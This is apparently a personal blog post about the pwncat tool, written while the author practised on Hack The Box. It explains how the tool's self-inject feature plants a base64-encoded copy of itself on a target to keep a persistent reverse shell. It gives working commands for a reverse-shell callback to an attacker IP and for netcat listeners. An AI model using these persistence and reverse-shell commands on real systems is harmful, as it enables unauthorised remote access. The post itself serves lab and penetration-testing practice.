```yaml
---
layout: post
author: dalemazza
title: Pwncat - Netcat on steroids!  
date: 2020-06-21
category: blog
tags: blog
---
```



## Do you hate when you Ctrl+c in a reverse shell and lose it? I did until I found Pwncat!  

<p align="center">
  <img width="400" height="400" src="/assets/pwncat.jpg">
</p>

Recently I was doing a machine on Hack the box, I managed to get a reverse shell on the machine but it was flaky and kept crashing on me. This got me thinking that surely someone somewhere has made a script to fix this problem?  

After some google fu I stumbled across this [github](https://github.com/cytopia/pwncat) repo. It had everything I had ever dreamed about in one tool! Some highlights include:  

* Port Scanning
* Self-injecting reverse shell
* Bind shell
* Reverse shell
* Port forwarding
* Protection from Ctrl+c !!!!!!
* Evade IPS and Firewall
* Plus much more!

I had to try this tool! So I cloned the repo and put it to the test. I quickly wanted to try the `--self-inject` function out. To my surprise it caught the reverse shell but did not work after after upgrading the shell to TTY.  
<p>&nbsp;</p>

## Bug 1  


During the process to upgrade the shell to TTY I found that the shell would crash after the last stage of returning to the shell with the command `fg`. I then approached the creator on github and entered the issue as a bug. The creator quickly resolved the issue, It was related to how the shell interpreted the “enter” after the `fg`. The bug was fixed, Now to try again!  
<p>&nbsp;</p>

## Bug 2  


Now I had a full TTY shell. I went back and tried to catch the shell again but with the `--self-inject` flag. After setting up the pwncat listener with the inject flag `pwncat -l 1234 --self-inject /bin/bash:10.10.14.28:1234` I quickly learnt that it was not injecting into a python binary. Once again I submitted this as a bug and he quickly solved the issue. This time it was related to the way the reverse shell sends back the shell, he had to change the way pwncat behaved to interpret many types of reverse shell. 1 day later he sent me a message saying he had a fix! Third times the charm.
<p>&nbsp;</p>
---
## How does it work?  

As the client (reverse shell) connects to the your host machine it does the following:  

1. Enumerate Python availability and versions on the target.
2. Dump itself base64 encoded onto the target.
3. Use the target’s Python to decode itself.
4. Use the target’s Python to start itself as an unbreakable reverse shell back to you .

Once this is done the client will constantly send back a reverse shell to the ip/port you specified in pwncat, So if you break the shell all you have to do is set up a listener of your choice and listen for the reverse shell. This is massive as most reverse shells rely on you running an exploit each time to spawn the shell, This way you only have to run the exploit once.  
<p>&nbsp;</p>
---

## Heres how to do it  

First you need a client with a reverse shell set up for your machine and port. Next you need to run this command:  
```bash
pwncat -l 1234 –self-inject /bin/bash:10.10.14.28:1234
```
The command breaks down into the following, pwncat listening on port 1234, running the inject flag, spawning a bash shell to the ip and port of your machine. It should like a little something like this.  

<p align="center">
  <img width="400" height="400" src="/assets/pwncat1.png">
</p>
Figure 1. The result of injecting to a unbreakable shell

Now your shell should be unbreakable! to test this press Ctrl+c , this should break the shell. Now all you have to do it run a listener here are some examples:
```bash
nc -lvnp 1234
pwncat -l 1234
```  
p align="center">
  <img width="400" height="400" src="/assets/pwncat2.png">
</p>

Figure 2. Here I Ctrl+c out of the shell, Then use a simple listener to catch the shell again.

You now have your shell back without re-running exploits or reverse shells! I hope this helps you out.
